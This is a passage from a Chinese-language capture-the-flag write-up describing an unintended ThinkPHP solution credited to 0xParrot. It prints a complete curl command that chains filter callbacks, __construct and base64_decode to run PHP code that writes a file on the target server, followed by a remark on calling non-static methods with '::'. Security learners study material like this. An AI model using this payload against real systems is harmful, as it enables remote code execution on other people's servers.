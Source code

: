 ![image.png](./img/49.png)

### 算是半个预期的非预期5

来自国外的 [0xParrot](https://twitter.com/0xParrot)@super guesser

`curl --data "path=PD9waHAgZmlsZV9wdXRfY29udGVudHMoJ3N1cHBwLnBocCcsJ3N1cGVyIGd1ZXNzc3NlcnMnKTsgPz4=&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=base64_decode&filter[]=\think\view\driver\Php::Display&method=GET" "http://101.32.184.39/?s=captcha&g=implode" --output - > a.html` 

首先我之前并不知道  `::` 可以直接调用非静态方法，问了一些师傅他们也表示没注意过。

![image-20201018202149206](./img/50.png)
